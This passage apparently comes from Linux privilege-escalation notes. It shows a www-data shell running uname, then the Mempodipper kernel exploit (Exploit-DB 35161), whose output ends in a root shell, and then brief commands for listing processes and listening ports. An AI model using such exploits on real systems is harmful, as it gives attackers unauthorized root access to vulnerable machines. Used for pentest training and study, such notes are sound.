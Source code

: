 ```
```

### 2.6.39 < 3.2.2 (x86/x64)

``` bash
www-data@hades:/tmp$ uname -a
Linux hades 3.0.0-12-server #20-Ubuntu SMP Fri Oct 7 16:36:30 UTC 2011 x86_64 x86_64 x86_64 GNU/Linux
```

[https://www.exploit-db.com/exploits/35161](https://www.exploit-db.com/exploits/35161)

``` bash
www-data@hades:/tmp$ ./35161 
===============================
=          Mempodipper        =
=           by zx2c4          =
=         Jan 21, 2012        =
===============================

[+] Ptracing su to find next instruction without reading binary.
[+] Creating ptrace pipe.
[+] Forking ptrace child.
[+] Waiting for ptraced child to give output on syscalls.
[+] Ptrace_traceme'ing process.
[+] Error message written. Single stepping to find address.
[+] Resolved call address to 0x401ce8.
[+] Opening socketpair.
[+] Waiting for transferred fd in parent.
[+] Executing child from child fork.
[+] Opening parent mem /proc/2338/mem in child.
[+] Sending fd 6 to parent.
[+] Received fd at 6.
[+] Assigning fd 6 to stderr.
[+] Calculating su padding.
[+] Seeking to offset 0x401cdc.
[+] Executing su with shellcode.
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

## Processes and Services

``` bash
ps axu
```

[How to check if port is in use in](https://www.cyberciti.biz/faq/unix-linux-check-if-port-is-in-use-command/)

``` bash
sudo lsof -i -P -n | grep LISTEN
```
